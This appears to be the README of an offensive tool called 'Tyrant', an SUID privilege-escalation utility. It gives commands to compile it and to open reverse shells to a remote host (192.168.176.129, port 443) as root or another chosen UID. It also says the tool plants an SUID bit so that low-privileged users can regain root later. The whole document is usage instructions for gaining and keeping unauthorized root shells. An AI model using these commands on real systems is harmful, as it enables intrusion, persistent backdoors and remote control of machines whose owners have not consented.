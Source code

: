  

# Tyrant

Tyrant is an SUID binary privilege escalation tool that allows you to obtain elevated privileges or facilitate lateral movement more efficiently.

## Usage

Compile the source code using the following command:

```bash
$ gcc tyrant.c -o tyrant
```

To display the help information, use:

```bash
$ ./tyrant -h
```

![Help Command Output](pic/image.png)

## Retrieve UID 

Simply run the tool without any arguments to list the current user UID along with other user details:

```bash
$ ./tyrant
```

![User UID Output](pic/image-2.png)

## Specify UID for Reverse Shell: Root Privilege

**Note:** If you attempt to initiate a reverse shell as a low-privileged user, it will fail. You must utilize other vulnerabilities in conjunction with Tyrant.

To initiate a reverse shell with root privileges, execute:

```bash
# ./tyrant -uid 0 -rhost 192.168.176.129 -rport 443
```

![Successful Privilege Escalation](pic/image-3.png)

Upon execution, Tyrant will automatically set the SUID bit, allowing low-privileged users to perform root privilege escalation operations. For example:

```bash
$ ./tyrant -uid 0 -rhost 192.168.176.129 -rport 443
```

![Root Session](pic/image-4.png)

![Successful Shell Access](pic/image-5.png)

## Specify Other UID

You can also switch to a different user by specifying another UID:

```bash
# ./tyrant -uid 33 -rhost 192.168.176.129 -rport 443
```

![Command Output for Different UID](pic/image-6.png)

 